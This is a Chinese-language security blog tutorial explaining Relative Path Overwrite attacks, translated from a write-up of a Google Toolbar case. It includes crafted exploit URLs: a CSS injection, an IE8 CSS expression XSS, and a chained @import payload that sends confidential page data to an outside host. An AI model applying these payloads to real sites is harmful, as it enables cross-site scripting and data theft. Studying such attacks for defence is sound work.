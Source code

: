 ```yaml
---
title: 【websec】RPO攻击
date: 2017-03-27 23:51:33
categories: Web安全
tags:
    - RPO
---
```


## 什么是RPO

RPO(Relative Path Overwrite)相对路径覆盖，是一种利用相对URL路径覆盖目标文件的一种攻击手段。

<!-- more -->

## google案例

翻译自[http://blog.innerht.ml/rpo-gadgets/](http://blog.innerht.ml/rpo-gadgets/).

### 识别RPO

RPO依赖于CSS解析器能够解析那些不严谨的语法内容，这是RPO攻击的基础条件，寻找RPO攻击的第一步是检查网页是否按正确的文档类型解析，然后寻找相对CSS样式的导入。

作者发现Google Toolbar的一个目标URL: `http://www.google.com/tools/toolbar/buttons/apis/howto_guide.html`, 该页面用相对路径导入CSS样式。

```html
<html>  
<head>  
<title>Google Toolbar API - Guide to Making Custom Buttons</title>  
<link href="../../styles.css" rel="stylesheet" type="text/css" />
```

下一步是找出目标服务器解析路径的方式。对浏览器来说，目录是通过 `/` 来分隔的，然而对服务器来说，路径中包含 `/`并不意味着存在一个目录。例如，JSP接收路径参数是以`;`作为分隔符的，例如`http://example.com/path;/notpath`，而浏览器并不识别这种模式，而当做是存在目录的路径。

同样，Google Toolbar也有它自己独特的解析路径的方式。在发送请求给服务器之前，会对请求进行处理并解码所有的路径，但是谷歌浏览器并不会强制转换`%2f`为`/`,因此可以将路径中的`/`替换为`%2f`。访问`http://www.google.com/tools/toolbar/buttons/apis%2fhowto_guide.html`

{% asset_img google_toolbar.png %}

针对上面的链接，服务器和浏览器对路径的解析是不一致的.

* 服务器视角: `/tools/toolbar/buttons/apis/` + howto_guide.html
* 浏览器视角: `/tools/toolbar/buttons/` + apis%2fhowto_guide.html
* 导入的css样式: `/tools/` + ~~toolbar/buttons/../../~~style.css

以上"+"左边高亮部分表示基本路径，浏览器认为基本路径是 `/tools/toolbar/buttons/` 而不是 `/tools/toolbar/buttons/apis/`, 因此导入相对路径的样式`../../style.css` 会额外多跳一层目录路径，本应该导入css的路径为"tools/toolbar/style.css", 而现在为"tools/style.xss"。

除了跳目录以外，还能制作假目录，例如，我们想在导入的样式路径为`/tools/fake/styles.css`, 可以构造如下url:`http://www.google.com/tools/fake/..%2ftoolbar/buttons/apis%2fhowto_guide.html`

* 服务器视角: /tools/~~fake/../~~toolbar/buttons/apis/ + howto_guide.html
* 浏览器视角: tools/fake/..%2ftoolbar/buttons/ + apis%2fhowto_guide.html
* 导入的css样式: /tools/fake/~~..%2ftoolbar/buttons/../../~~ + style.css

这里我们添加了两个虚假的路径:`fake/`和`..%2f`, 以便他们能在服务器相互抵消，同时浏览器认为`fake/`是一个真实的目录，并且，`..%2ftoobar`是另外一个目录。理论上，我们可以再根路径上导入任何样式，通过`https://www.google.com/*/styles.css`, 然而不幸的是代理只在` https://www.google.com/tools/*/styles.css`路径上有效，换句话说，任何在`/tools/`路径之外的路径采用编码魔术(`%2f`代替`/`)将不起作用, 也就是说，只能在`https://www.google.com/tools/*/styles.css.`导入任何样式。

我试图四处寻找，发现任何url都是静态的，除了,
`http://www.google.com/tools/toolbar/buttons/gallery`会重定向到`http://www.google.com/gadgets/directory?synd=toolbar&frontpage=1`。现在事情变得有趣了，参数`q`是作为搜索参数，并且反应在页面上，让我们注入一个简单的payload:`http://www.google.com/gadgets/directory?synd=toolbar&frontpage=1&q=%0a{}*{background:red}`

{% asset_img q_red.png %}

这非常棒，只要我们能通过某种方式导入样式参数`q`. 最后一步是找出如何在我们引用它作为样式的同时，维持查询字符串。RPO需要持续的注入,因为导入样式表并不包含查询字符串本身。但是由于路径解码的行为，我们能使用如下payload导入样式。

`http://www.google.com/tools/toolbar/buttons%2fgallery%3fq%3d%250a%257B%257D*%257Bbackground%253Ared%257D/..%2f/apis/howto_guide.html`

* 服务器视角: /tools/toolbar/buttons/~~gallery?q=%0a{}*{background:red}/../~~/apis/ + howto_guide.html
* 浏览器视角: /tools/toolbar/buttons%2fgallery%3fq%3d%250a%257B%257D*%257Bbackground%253Ared%257D/..%2f/apis/ + howto_guide.html
* 导入的css样式:

    - /tools/toolbar/buttons%2fgallery%3fq%3d%250a%257B%257D*%257Bbackground%253Ared%257D/~~..%2f/apis/../../~~style.css
    - /tools/toolbar/buttons/gallery?q=%0a{}*{background:red}/style.css
    - /gadgets/directory?synd=toolbar&frontpage=1&q=%0a{}*{background:red}/style.css

{% asset_img RPO_red.png %}

我们还能做得更好么？当然，我们改变payload为 CSS XSS向量`expression(alert(document.domain))`，并启动IE8: `http://www.google.com/tools/toolbar/buttons%2fgallery%3fq%3d%250a%257B%257D*%257Bx%253Aexpression(alert(document.domain))%257D/..%2f/apis/`

{% asset_img rpo-expression-alert.png %}

### 使用RPO加载其他页面

我们可以使用RPO去偷其他页面的数据。CSS有一个有意思的地方，在怪异模式下，松散解析适用于所有导入的样式表，只要他们同源，这开辟了一个新的可能，如果导入的样式表包含机密数据和注入点，我们就能通过CSS魔法偷走他们。但这样的页面有最低要求如下：

* 注入点在机密数据之前出现
* 注入点允许`%0a`, `%0c` 或 `%0d`，以便于解析器的状态可以从一个错误的状态中恢复过来
* 机密数据和它周围不能包含换行符

`http://www.google.com/tools/toolbar/buttons%2fgallery%3fq%3d%250a%257B%257D%2540import%2527%252Fsearch%253Fnord%253D1%2526q%253D%257B%257D%25250a%2540import%252527%252F%252Finnerht.ml%253F%2522/..%2f/apis/howto_guide.html`

{% asset_img rrpo-gadget-chain-2 %}

## RPO 利用原理和条件

* 相对路径导入css样式
* 浏览器解析路径和服务器不一致，浏览器将服务器返回的不是css的文件当做CSS文件解析
* CSS解析器忽略非法的内容

### CSS解析器

CSS2 规范中指出，"在某些情况下，用户代理必须忽略非法样式的一部分”，规范定义忽略意味着解析非法部分(为了找到它开始和结束的地方), 同时又当它不存在。规范其他地方又补充到，“对于混合CSS内容和其他内容的文件，CSS会忽略非法的内容”。

那么，我们可以通过植入CSS代码，欺骗CSS解析器去忽略之前的不合法的语法内容，从而加载我们植入的CSS代码，最好的方法是选择一个无效的“选择器”，css会忽略之前所有的非法内容。

如下有两种利用选择器去忽略非法内容的方式，原理是CSS解析器解析`}`或`{}`都将工作

```
}*{color:#ccc;}
{}}*{color:#ccc;}
```

## Refer

* [http://edu.aqniu.com/article/65](http://edu.aqniu.com/article/65)
* [http://www.thespanner.co.uk/2014/03/21/rpo/](http://www.thespanner.co.uk/2014/03/21/rpo/)
* [http://blog.innerht.ml/rpo-gadgets/](http://blog.innerht.ml/rpo-gadgets/)
* [http://blog.portswigger.net/2015/02/prssi.html](http://blog.portswigger.net/2015/02/prssi.html)
